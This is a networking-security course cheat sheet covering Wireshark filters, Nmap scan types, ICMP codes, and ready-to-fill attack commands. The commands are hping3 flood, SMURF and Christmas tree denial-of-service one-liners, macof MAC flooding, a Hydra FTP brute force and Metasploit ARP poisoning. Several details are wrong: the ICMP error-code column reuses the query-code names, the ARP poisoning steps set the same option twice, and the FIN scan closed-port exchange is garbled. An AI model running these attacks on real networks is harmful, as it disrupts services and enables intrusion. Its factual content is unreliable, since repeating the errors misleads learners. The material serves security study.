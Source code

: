 **Instructor: Dimitris Amprazis**

#### Types of Attacks:
1. [ARP Cache Poisoning / Spoofing](#arp-cache-poisoning--poisoning-w-metasploit)
1. [SMURF Attack / ICMP Flooding](#hping-commands)
1. [Denial of Service / DoS Attack](#hydra-command)
1. [Christmas Tree Attack](#hping-commands)
1. [Brute Force Attack](#hydra-command)
1. [MAC Flooding](#macof-commands)
1. [SSL Stripping](#ssl-stripping)

#### Wireshark Utils:
- Comparison: 
    - source ip filter: `ip.src==216.58.198.14`
    - destination ip filter: `ip.dst==192.168.1.49`
    - `tcp.port eq 80`
    - `ip.dst != 192.168.1.1`
- Boolean filter: `http||arp`
- Boolean & Comparison filter combination: `http&&ip.src==95.100.242.40`
- Filter lost TCP Segment filter: `tcp.analysis.lost_segment`
- Filter Retransmitted TCP Segment: `tcp.analysis.retransmission`
- Filter a frame that contains a specific text: `frame contains username123`
- Show suspicious traffic (if any): `Analyze > Expert Information > Severity:Warning`
- Filter Specific http methods: `http.request.method==POST`
- Filter all FTP Traffic: `ftp.request.command` 
- Filter all FTP Data Traffic: `ftp-data` 
- Filter all Telnet Traffic: `telnet` 
- Filter all SMTP Traffic: `smtp` 
- Filter all DNS Traffic: `dns` 
- Filter DNS Query Answers more than 4:
  > `dns.count.answers > 4` 
  > 
  > This is used for inspecting whether any zombie is present in a network and trying to connect to a C2 server, so on DNS resolving and an answer more than 4 we can suspect it to be a malicious url.
  >
  > Also using the PDU Hierarchical Viewer and under "**Domain Name System (response)**" for a selected DNS response packet we can see the field "**Answer RRs**" that shows the DNS Query Answers returned.
- View Protocol Hierarchy: 
  > `Statistics > Protocol Hierarchy`
  >
  > The above window shows a list of protocols that has been used to communicate.
  >
  > Mostly this is used to find any suspicious traffic especially in the TCP section when the segment is shown as **"Data"**.
  >
  > Wireshark does it because it doesn't what kind of payload is present inside its PDU(there could be false +ves).
- Filtering capture before scanning:
  > NOTE: The following steps might vary for every protocol but the procedure remains the same.
  - `Capture > Capture Filters >` Press <kbd>+</kbd> `> [SET THE NAME AND FILTER]`
  - `[INTERFACE SELECTION WINDOW] > [PRESS GREEN BOOKMARK BUTTON AND SELECT THE CREATED FILTER] > [DOUBLE CLICK INTERFACE]`
- Insert a key to decrypt captured packets: `Edit > Preferences > Protocols > [SELECT SPECIFIC PROTOCOL] > Decryption Keys [EDIT] >` Press <kbd>+</kbd> ` > [ADD KEY TYPE AND KEY]`. 
- Extract a binary file from TCP Stream:
  - `Right click contextual data packet from capture window > Follow > TCP Stream`
  - `Show and save data as > Raw > Save as`
- Kerberos Misc:
  - Filter user account names: `kerberos.CNameString and !(kerberos.CNameString contains $)`
  - View domain name: `PDU Hierarchical Viewer > Kerberos > as-req > req-body > cname > realm`
- List HTTP Objects: `File > Export Objects > HTTP`

---

#### Nmap Utils:
  - **-A** - OS Detection, service detection, script scanning
  - **-Pn** - Treat all hosts as online and skip host discovery. If the target blocks ICMP requests, this will result in Nmap assuming that the host is down.
  - **-T4** - set the speed of the scan(valid params: 0 - 5)
  - **-p1-65535** - set port scan range(-p- is an alternative to scan all ports)

---

#### Nmap Port Scanning:

- **TCP Scan**: `nmap -sT -p445 192.168.8.123`
  > **Port Opened**: (src)`SYN`, (dst)`SYN, ACK`, (src)`ACK`, (src)`RST`
  > 
  > **Port Closed**: (src)`SYN`, (dst)`RST, ACK`

- **SYN Scan**: `nmap -sS -p445 192.168.8.123`
  > **Port Opened**: (src)`SYN`, (dst)`SYN, ACK`, (src)`RST`
  > 
  > **Port Closed**: (src)`SYN`, (dst)`RST, ACK`

- **FIN Scan**: `nmap -sF -p445 192.168.8.123`
  > **Port Opened**: (src)`FIN`
  > 
  > **Port Closed**: (src)`SYN`, (dst)`RST, ACK`

- **NULL Scan**: `nmap -sN -p445 192.168.8.123`
  > **Port Opened**: (src)`<None>`
  > 
  > **Port Closed**: (src)`<None>`, (dst)`RST, ACK`

- **XMAS Scan**: `nmap -sX -p445 192.168.8.123`
  > **Port Opened | Filtered**: (src)`FIN, PSH, URG`
  > 
  > **Port Closed**: (src)`FIN, PSH, URG`, (dst)`RST, ACK`

- **UDP Scan**: `nmap -sU -p161 192.168.8.123`
  > **Port Opened | Filtered**: (src)`<Datagram>`
  > 
  > **Port Closed**: (src)`<Datagram>`, (dst)`Dst/Port unreachable`

---

#### ICMP / Ping / Host Discovery Utils:

  > **NOTE**:
  > - ICMP Payload size is 32 Bytes
  > - ICMP MTU is 1472 bytes. Beyond that packet is fragmented

  - **Ping Util**:
    > **Normal Ping Requests** - `ping 192.168.1.2`
    >
    > **Ping Requests with hostname resolution** - `ping -a 192.168.1.2`
    >
    > **Ping n number of packets** - `ping -n 8 192.168.1.2`
    >
    > **Fragment Ping packet** - `ping -l 33 192.168.1.2`

  - **ICMP Codes**:

    | Query Codes                       |      Error Codes                  |
    |-----------------------------------|-----------------------------------|
    | **Type 0** - Echo Reply           | **Type 3** - Echo Reply           |
    | **Type 8** - Echo Request         | **Type 4** - Echo Request         |
    | **Type 9** - Router Advertisement | **Type 5** - Router Advertisement |
    | **Type 10** - Router Solicitation | **Type 11** - Router Solicitation |
    | **Type 13** - Timestamp Request   | **Type 12** - Timestamp Request   |
    | **Type 14** - Timestamp Reply

---

#### Hping Commands:

- Perform Christmas Tree Attack:
  > \> `hping3 <victim's_ip> --flood --rand-source --destport 80 -c 25000 --syn --ack --fin --rst --push --urg --xmas --ymas`

- Perform SMURF Attack / ICMP Flooding:
  > \> `hping3 --icmp --flood -a <spoofed_victim's_ip> <broadcast_ip>`

- Perform Denial of Service / DoS Attack:
  > \> `hping3 -c <no_of_packets_to_send> -d <packet_size> -S -w <tcp_window_size> -p <port_no> --flood --randsource <target's_ip>`

---

#### macof Commands:
- Simple MAC Flooding: `macof -i <interface_name> [-n <int>]`
- Targeted MAC Flooding: `macof -i <interface_name> -d <target's_ip>`

---

#### Hydra Command:
- Perform Brute force on FTP:
  > `hydra -L <username_lists.txt> -P <passwd_lists.txt> [-vV] <target's_ip> ftp`

---

#### ARP Cache Poisoning / Spoofing (/w Metasploit):

- use the following aux module:
  >msf > `use auxiliary/spoof/arp/arp_poisoning`

- set the **target's** & **gateway's** ip address:
  >msf > `set DHOSTS <target's_ip>`
  >
  >msf > `set DHOSTS <gateway's_ip>`

- run the command:
  >msf > `exploit`

---

#### SSL Stripping:
> AKA SSL downgrade or HTTP downgrade attacks which is a type of cyber attack where hackers downgrade a web connection from the more secure **HTTPS** to the less secure **HTTP**. This makes all communications unencrypted and sets the stage for a man-in-the-middle attack, in which the hacker sits in the middle of a conversation listening or intercepting information.

---

#### Extras:
- Tor Communcations can't be monitored in Wireshark instead we can use **[NetworkMiner](https://www.netresec.com/?page=NetworkMiner)**. Also the capture data shown is much more jargonless.
